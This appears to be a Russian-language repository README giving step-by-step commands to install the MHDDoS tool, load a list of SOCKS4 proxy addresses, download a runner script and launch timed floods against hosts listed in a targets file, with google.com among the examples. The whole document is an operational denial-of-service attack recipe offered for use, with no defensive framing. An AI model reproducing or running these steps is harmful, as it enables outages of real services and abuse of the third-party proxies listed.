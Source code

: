 1. Установите инструментарий
```
sudo apt-get update
sudo apt-get install -y jq python3-pip python-pyasn1
pip install pyasn1==0.4.6
```

2. Установите на сервере MHDDoS
```
git clone https://github.com/MHProDev/MHDDoS.git
cd MHDDoS
pip install -r requirements.txt
```

3. Сохраните прокси лист

```
echo 'socks4://115.239.21.111:23456
socks4://119.3.231.232:8001
socks4://123.56.29.180:10808
socks4://178.237.38.22:13292
socks4://192.252.215.5:16137
socks4://93.190.141.62:9050
socks4://192.252.215.5:16137
socks4://72.195.34.35:27360
socks4://162.14.135.190:10800
socks4://80.75.3.74:1080
socks4://114.88.230.134:1080
socks4://98.162.96.53:10663
socks4://119.3.231.232:8001
socks4://72.195.34.60:27391
socks4://119.3.231.232:8001
socks4://198.8.94.170:4145
socks4://142.93.143.155:9010
socks4://192.252.211.197:14921
socks4://192.111.135.17:18302
socks4://72.195.34.35:27360
socks4://175.24.235.242:7891
socks4://98.162.25.23:4145
socks4://98.162.25.4:31654
socks4://174.77.111.198:49547
socks4://192.111.137.35:4145
socks4://192.111.137.35:4145
socks4://98.162.25.7:31653
socks4://78.47.230.141:17027
socks4://128.199.245.23:24527
socks4://222.212.85.16:7000
socks4://51.222.13.193:10084
socks4://121.205.228.46:8003
socks4://1.14.104.55:15229
socks4://192.111.135.21:4145
socks4://192.111.135.21:4145
socks4://72.195.34.60:27391
socks4://101.35.115.136:20012
socks4://142.93.143.155:9010
socks4://98.162.25.4:31654
socks4://175.24.235.242:7891
socks4://192.111.137.34:18765' > files/proxies/0
 ```

4. установите раннер
```
curl https://raw.githubusercontent.com/rxitech/k6clean/master/runner.sh > runner.sh
```

5. сделайте раннер запускаемым

```
chmod +x ./runner.sh
```

6. Создайте targets.json файл с целями в следующем формате (без запятой после последнего значения!)
```
{
 "127.0.0.1": "localhost",
 "172.217.19.78": "google.com"
}
```

7. Запустите раннер передав файл с целями и продолжительность выполнения в секундах
```
./runner.sh targets.json 300
```

Alternative run command for dockerized version
```bash
docker run -ti --rm -v $(pwd)/targets.json:/app/targets.json k6clean:latest  targets.json 300
```